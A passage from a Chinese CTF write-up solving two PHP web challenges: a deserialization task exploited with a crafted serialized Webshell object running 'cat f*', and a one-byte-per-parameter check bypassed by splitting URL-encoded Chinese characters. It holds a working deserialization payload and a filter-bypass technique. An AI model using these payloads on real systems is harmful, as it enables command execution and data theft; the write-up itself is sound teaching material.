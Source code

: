 一到简单的反序列化题目

目标点在webshell类上的init函数，反序列化后直接执行。。。



exp

```php
 <?php 
 class Webshell {
 
        public $cmd = 'cat f*';
        
}  
echo serialize(new Webshell);
?> 
// O:8:"Webshell":1:{s:3:"cmd";s:6:"cat f*";} 
```







## 化零为整            

```
 <?php

highlight_file(__FILE__);
include "flag.php";

$result='';

for ($i=1;$i<=count($_GET);$i++){
    if (strlen($_GET[$i])>1){
        die("你太长了！！");
        }
    else{
    $result=$result.$_GET[$i];
    }
}

if ($result ==="大牛"){
    echo $flag;
}

```

中文在php里面长度是3，其实很容易想到中文的url编码就是3个

我们将大牛进行url编码

```
%E5%A4%A7%E7%89%9B
```

